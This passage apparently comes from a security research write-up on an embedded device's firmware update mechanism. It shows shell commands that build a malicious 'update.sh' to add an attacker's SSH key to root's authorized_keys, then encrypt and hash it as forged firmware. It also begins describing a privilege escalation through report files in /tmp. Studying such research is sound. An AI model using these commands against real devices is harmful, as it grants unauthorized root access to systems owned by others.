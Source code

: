 <p style="margin-left: 30px;"><img src="./images/14.png" style="border: 1px solid black;" width="65%" /></p>

Reviewing the files packed in the "**data**" file, an "**update.sh**" shell script was found where all the commands to deploy the new files were listed, and all those commands are going to be executed as **root** user. In that way, hopefully we could make a new "update.sh" script, packing and encrypting it together with all the desired files, as a new firmware to be deployed in the device.

Let's say that with the following commands we could gain **root** access via SSH:

	$ cat update.sh
	#!/bin/sh
	echo "ssh-rsa AAAAC1Mh… root@foobar" >> /root/.ssh/authorized_keys
	exit 0
	$ chmod +x update.sh
	$ tar czf data.tar.gz update.sh
	$ openssl enc -des -in data.tar.gz -out data -pass pass:TblahblahblahA
	$ md5sum data > hash.md5
	$ tar cf my_little_firmware.tar data hash.md5

## PRIVILEGE ESCALATION: THE EASY WAY

Another functionality found in the web portal allowed us to download reports.

<p style="margin-left: 30px;"><img src="./images/15.png" style="border: 1px solid black;" width="80%" /></p>

With some static analysis of the **index.cgi** binary executed by the web server, it was reached a function that reveals that the final report was composed concatenating several files from "*/tmp/*" directory (“*/tmp/cnc.log.1*”, “*/tmp/cnc.log.1*” and “*/tmp/cnc.log*”)
